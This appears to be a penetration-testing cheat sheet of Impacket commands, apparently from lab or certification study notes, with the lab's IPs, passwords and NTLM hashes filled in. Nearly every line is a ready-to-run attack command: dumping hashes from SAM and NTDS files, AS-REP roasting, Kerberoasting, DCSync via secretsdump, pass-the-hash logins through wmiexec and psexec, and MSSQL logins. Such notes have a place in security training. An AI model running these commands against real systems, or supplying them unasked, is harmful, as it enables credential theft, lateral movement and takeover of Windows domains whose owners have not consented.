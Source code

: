 **Change Username, Password, IP, Filename Accordingly** 

Run this in Linux machine where the file SAM and SYSTEM located, to get NTLM hashes.
```
impacket-secretsdump -sam SAM -system SYSTEM local
```

Run this to perform AS-REP roasting, required Username and Password of an user in the domain.
```
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

Run this to Perform Kerberoasting to get TGS Req hash (SPN), Need Username and Password.
```
impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

Domain Controller Synchronization.
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70 
```

Port 445 has to be opened in the target, we have to use NTLM hash of the Administrator in this case.
```
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```

Extract the NTLM hashes from the ntds and SYSTEM file.
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

Login to any Machine with smb service open, Need Domain Admin Credentials.
```
impacket-psexec -dc-ip 172.168.170.10 leon@172.16.170.13
```
```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

Login into MSSQL.
```
impacket-mssqlclient -windows-auth sql_svc:Dolphin1@10.10.179.148
```
```
impacket-mssqlclient ARCHETYPE/sql_svc@10.129.76.222 -windows-auth
```

